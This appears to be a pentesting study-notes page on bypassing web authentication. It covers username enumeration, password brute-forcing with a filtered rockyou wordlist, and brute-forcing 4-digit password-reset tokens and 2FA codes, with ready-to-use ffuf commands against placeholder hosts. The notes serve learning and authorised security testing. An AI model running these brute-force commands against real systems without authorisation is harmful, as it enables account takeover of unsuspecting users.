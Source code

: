```yaml
---
layout: default
title: Bypassing Authentication
permalink: /Web/bypass_auth/
---
```


We will mainly focus on knowledge-based authentication.

# User Enumeration
- Web applications could reveal whether a username exists or not by showing different error messages for the two cases or a chat application might show other users by username to chat with.
- A good starting point is the wordlist collection [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Usernames).
```
ffuf -w /path/to/xato-net-10-million-usernames.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"
```
- Side-channel attacks do not directly target the web application's response but rather extra information that can be obtained or inferred from the response, e.g. the time it takes for the web application's response to reach us.

# Brute-Forcing Passwords
Ensuring that a good wordlist is used for the attack is crucial.
If a web application enforces a password policy, we should ensure that our wordlist only contains passwords that match the implemented password policy.
```
grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt
```
```
wc -l custom_wordlist.txt
```
```
ffuf -w ./custom_wordlist.txt -u http://$ip/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"
```
# Brute-Forcing Password Reset Tokens
Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.
As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account. <br>
To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. <br>
In case of 4 digit reset token:
```
seq -w 0 9999 > tokens.txt
```
The -w flag pads all numbers to the same length by prepending zeroes.
Verify with `head token.txt`.
```
ffuf -w ./tokens.txt -u http://$domain/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```
# Brute-Forcing 2FA Codes

One of the most common 2FA implementations relies on the user's password and a time-based one-time password (TOTP) provided to the user's smartphone by an authenticator app or via SMS. These TOTPs typically consist only of digits.

```
seq -w 0 9999 > tokens.txt
```
```
ffuf -w ./tokens.txt -u http://$domain/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=mrjm73bh8e53qcej2744h7k44p" -d "otp=FUZZ" -fr "Invalid 2FA Code"
```
With that we will get hits after the session successfully passed the 2FA check because we had supplied the correct TOTP. The first hit was the correct TOTP. Afterward, our session is marked as fully authenticated, so all requests using our session cookie are redirected to the logged in page.
